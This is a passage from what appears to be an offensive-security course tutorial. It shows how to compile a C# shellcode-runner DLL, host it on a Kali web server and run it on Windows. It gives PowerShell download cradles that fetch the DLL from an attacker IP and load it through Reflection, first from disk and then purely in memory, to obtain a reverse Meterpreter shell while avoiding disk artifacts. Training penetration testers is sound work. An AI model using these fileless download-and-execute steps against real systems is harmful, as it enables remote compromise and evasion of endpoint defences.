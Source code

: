 > Listing 4 - DllImports and definition of runner method

Next, we'll copy the exact content of the _Main_ method of the _ConsoleApp1_ project into the _runner_ method. We'll also need to replace the namespace imports to match those of the _ConsoleApp1_ project.

With the C# code complete, we can compile it and copy the resulting DLL (**ClassLibrary1.dll**) into the web root of our Kali Linux machine.

Once the file is in place, we'll ensure that Apache is started and configure a multi/handler Metasploit listener.

In a new 64-bit session of PowerShell ISE on the Windows 11 development machine, we can use a download cradle to fetch the newly-compiled DLL. As shown in Listing 5, we'll use the _LoadFile_ method from the _System.Reflection.Assembly_ namespace to dynamically load our pre-compiled C# assembly into the process. This works in both PowerShell and native C#.

```
(New-Object System.Net.WebClient).DownloadFile('http://192.168.50.120/ClassLibrary1.dll', 'C:\Users\Offsec\ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\Offsec\ClassLibrary1.dll")
```

> Listing 5 - Downloading the assembly and loading it into memory

After the assembly is loaded, we can interact with it using reflection via the _GetType_ and _GetMethod_ methods, and finally call it using the _Invoke_ method:

```
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

> Listing 6 - Executing the loaded assembly using reflection

Executing this PowerShell results in a reverse Meterpreter shell, but it _will_ download the assembly to disk before loading it. We can subvert this by instead using the [Load](https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.load?view=netframework-4.8) method, which accepts a _Byte_ array in memory instead of a disk file. In this case, we'll modify our PowerShell code to use the [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=netframework-4.8) method of the _Net.WebClient_ class to download the DLL as a byte array.

```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.50.120/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

> Listing 7 - Using DownloadData and Load to execute the assembly from memory

With this change, we have successfully loaded precompiled C# assembly directly into memory without touching disk and executed our shellcode runner. Excellent!

## Resources
